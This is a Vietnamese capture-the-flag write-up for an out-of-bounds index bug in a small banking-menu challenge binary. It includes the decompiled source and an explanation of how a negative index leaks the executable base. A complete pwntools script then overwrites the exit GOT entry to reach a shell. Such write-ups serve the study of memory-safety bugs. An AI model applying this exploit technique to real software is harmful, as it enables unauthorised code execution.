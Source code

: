 # out of bounds hay OOB
- OOB các bạn có thể hiểu cơ bản nó là 1 lỗi khi mà chương trình cho bạn quyền lựa chọn các option nhưng ở các điều kiện để thực hiện các `option` mà chương trình đề ra lại tồn tại 1 số bug trong đó mà ta có thể khai thác đc , để có thể hiểu sâu hơn về `OOB` bạn có thể tham khảo 1 trong số các lỗi `OOB` trong bài sau.
## 1. Source
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("------ JHTBank ------");
  while ( 1 )
  {
    main_menu();
    __isoc99_scanf("%d", &v5);
    if ( v5 != 1 )
      break;
    printf("Index: ");
    __isoc99_scanf("%d", &v4);
    if ( v4 <= 9 )
    {
      account_menu();
      __isoc99_scanf("%d", &v5);
      if ( v5 == 4 || v5 == 3 || v5 == 2 )
      {
        if ( *((_QWORD *)&acc + 2 * v4) )
        {
          if ( v5 == 4 )
          {
            printf("Name: %s\n", *((const char **)&acc + 2 * v4));
            printf("Amount: %lu\n", qword_3608[2 * v4]);
          }
          else if ( v5 == 2 )
          {
            printf("Enter name: ");
            __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
          }
          else
          {
            printf("Enter amount: ");
            __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
          }
        }
        else
        {
          puts("You didn't create this account!");
        }
      }
      else if ( v5 == 1 )
      {
        v3 = v4;
        *((_QWORD *)&acc + 2 * v3) = malloc(0x50uLL);
        printf("New name: ");
        __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
        printf("New amount: ");
        __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    else
    {
      puts("You can have maximum 10 accounts");
    }
  }
  exit(0);
}
```
## 2. Hướng giải
![Alt text](image-1.png)
![Alt text](image-2.png)
- Nhìn ảnh trên thì lỗi `OOB` nằm ở hàm if vì `v4` đc định dạng là 1 biến `int` thế cho nên ta có thể nhập vào giá trị âm và ta sẽ khai thác lỗi này.

![Alt text](image-3.png)
![Alt text](image-4.png)

- Với các option sau thì chức năng cơ bản của nó như sau:
  - option 1 là tạo acc mới dường như vô dụng ta sẽ ko khai thác đc gì ở đây
  - option 2 thay đổi tên acc
  - option 3 thay đổi giá trị tiền
  - option 4 là in ra dữ liệu có lẽ ta sẽ sử dụng option này để leak cái gì đấy thế nên ta vào debug xem nhé.

![Alt text](image-5.png)

- ta sẽ đặt breakpoint ở đây để khi nhập vào index ta có thể kiểm tra stack chính xác lỗi OOB diễn ra.

![Alt text](image-6.png)
![Alt text](image-7.png)
![Alt text](image-8.png)
- khi đến đoạn này nó sẽ gọi lên địa chỉ của 1 giá trị = `rax + rdx` khi search thử thì nó ra địa chỉ như ảnh sau.
![Alt text](image-9.png)
- Ta có thể thấy địa chỉ bắt đầu ở trên địa chỉ của `acc` , vậy là ta có thể leak đc các địa chỉ ở trên nữa để check xem phía trên có địa chỉ nào nữa ko nhé.
![Alt text](image-10.png)
![Alt text](image-11.png)
- Nhìn ảnh thì ta thấy có thể leak đc binary và các địa chỉ cả `GOT` và chương trình cho phép ta có thể `OW` đc got.
- Ở option 2 và 3 đều cho phép ta `OW` địa chỉ của `acc` và `amount`
nhưng sẽ có đôi chút khác biệt.
![Alt text](image-12.png)
- Như hình trên khi `change acc` thì nó sẻ khi vào con trỏ mà địa chỉ đó ko thể `W` đc nhưng còn `change money` thì nó lại trỏ đến stack và stack này lại trỏ đến 1 địa chỉ `GOT` thì ta chỉ xài `option 3` để khai thác bài này.

![Alt text](image-13.png)
- với script như này ta sẽ leak đc exe , tiếp theo ta chỉ cần `OW got` là đc.
![Alt text](image-14.png)
- ở vùng khoanh đỏ là các địa chỉ của `amount` với đuôi 8 thế thì ta thử check xem `GOT` nào chúng ta có thể `OW` đc.
![Alt text](image-15.png)
- Với các địa chỉ đc khoanh đỏ và có đuôi 8 ta có thể `OW` cac `GOT` sau thành `get_shell` , ta sẽ ưu tiên giữ `system` để nó có thể thực hiện `system(/bin/sh)` vậy thì ở đây tối ưu nhất là `exit`.
![Alt text](image-16.png)
- ta sẽ viết script như sau để `OW exit = get_shell`
- sau khi chạy thử thì đã thu đc shell.
![Alt text](image-17.png)
## 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('oob', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b
                b*main+240
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
###########################
###stage 1 : leak exe #####
###########################
sla(b'> ', b'1')
sla(b'Index: ', b'-5')
sla(b'> ', b'4')
p.recvuntil(b'Name: ')
exe_leak = u64(p.recvline()[:-1] + b'\0\0') #bởi vì địa chỉ nhận đc là dạng byte nên xài u64 chyển về số
exe.address = exe_leak - 0x35b0
info("Exe_leak: " + hex(exe_leak))
info("Exe_base: " + hex(exe.address))
#####################################
### Stage 2 : OW exit = get_shell ###
#####################################
sla(b'> ', b'1')
sla(b'Index: ', b'-9')
sla(b'> ', b'3')
sla(b'amount: ', str(exe.sym['get_shell']).encode()) # ở đây chúng ta sẽ nhập số ko phải nhập byte
                                                     #ta sẽ xài str để ép kiểu từ số về chữ và decode nó lại từ chuỗi thường sang byte

p.interactive()

```
